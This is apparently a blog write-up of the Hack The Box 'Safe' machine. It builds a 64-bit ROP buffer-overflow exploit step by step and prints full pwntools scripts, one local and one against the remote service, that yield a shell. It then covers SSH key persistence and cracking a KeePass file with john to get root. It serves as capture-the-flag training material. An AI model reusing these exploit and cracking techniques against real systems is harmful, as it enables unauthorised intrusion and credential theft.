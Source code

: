 ```yaml
---
layout: post
title:	"Safe Writeup"
date:	2019-10-26
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img0.png)

### User Flag

Let's run a full TCP scan with NMAP in order to enumerate all the available TCP services:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img1.png)

How we can see, there are 3 open ports. On the 1337, there is an unknow service:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img2.png)

Going to http://10.10.10.147, we find the default Apache webpage but, by inspecting the source code, we find a comment about the service running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img3.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img4.png)

We can download the binary at http://10.10.10.147/myapp, it's the same running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img5.png)

Now check if the service crashes after receiving a certain ammount of character, we can use python to generate 120 'A's:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img6.png)

Ok, it crashes! Let's use a gdb-peda to debug the application and understand what it does. In the following image we can see the only enabled protection is NX, obviously the operating system has ASRL enabled too (trust me it's enabled :-P):

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img7.png)

Because there is no PIE, the PLT is not randomized so we can call the puts, system, prinft and gets functions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img8.png)

Let's set a break point on the gets call and try to debug the binary:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img9.png)

As we can see, we are no able to debug the application because a new process is spawned and our debuger is not able to "follow" the new spawned process. In order to solve this problem, we can use the "set follow-fork-mode parent" command in order to let gdb-peda to "came back" to our process:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img10.png)

At this point, we need to know how much 'A's we need to overwrite EBP, to do this, we can use the pattern_create script:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img11.png)

Using the obtained string, we can see the value of EBP and use the pattern_offset to obtain the number of 'A's we need to overwrite EBP, we have to add 8 more 'A's to overwrite EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img12.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img13.png)

With 120 'A's and 8 'B's we are able to triger a ret instruction on the address 0x4242424242424242, that means we controll EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img14.png)

At this point, we controll the program flow, the idea is to call the system function (via PLT ad fix address), with /bin/bash as parameter. The x64 calling convetion tells us that the first argument must be pass throu the RDI register. So we need an instruction that take the value on the top of the stack and put it into the RDI register. We can use ROPgadget for this purpose:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img15.png)

Ok, our instruction is at address 0x40120b!!
So what does our payload should do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string
* System PLT Address 

Is it ok? No, we have another problem: ASRL(I told you before :-P), we don't know the address of our "/bin/bash" string. We need to figure out how to deal with it! We can find a writable fixed address, use the GETS function (PLT) to write our "/bin/bash" string into it. Using the vmmap command, we can see the memory mapping and it's permissions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img16.png)

Ok, how we can see, the memory from 0x00404000  to 0x00405000  is writtable and is part of our binary (fixed address!!!), let's use the address 0x404050. What does our exploit have to do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Writtable Address (0x404050)
* Gets PLT Address 
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string (0x404050)
* System PLT Address 

Using [pwntool](https://pwntools.com), this is the local exploit:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = process("/root/Desktop/myapp")

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #indirizzo scrivibile
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #indirizzo scrivibile
payload += p64(0x401040) #system@PLT
print p.read 
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img17.png)

Ok it works, let's use the connection to the remote service in order to obtain a reverse shell from Safe machine:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = remote("10.10.10.147",1337)

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #indirizzo scrivibile
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #indirizzo scrivibile
payload += p64(0x401040) #system@PLT
payload += "\x90" *50
print p.read
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img18.png)

### Root Flag

We can add our ssh key to the authorized_key file in order to access with SSH:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img19.png)

In the home folder of user there are 6 images and a keepass file:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img20.png)

We can use keepass2john and john to crack the keepass file,  one of the images maybe a keyfile, using keepass2john we can generate an a file containing multiple hashes, one for each images as key :

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img21.png)

With john, we obtain the password "bullshit":

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img22.png)

Using the password "bullshit" and the file "IMG_0547.JPG" as keyfile, we can access the keepass file and obtain the root password:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img23.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img24.png)

With su command we became the user root:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img25.png)









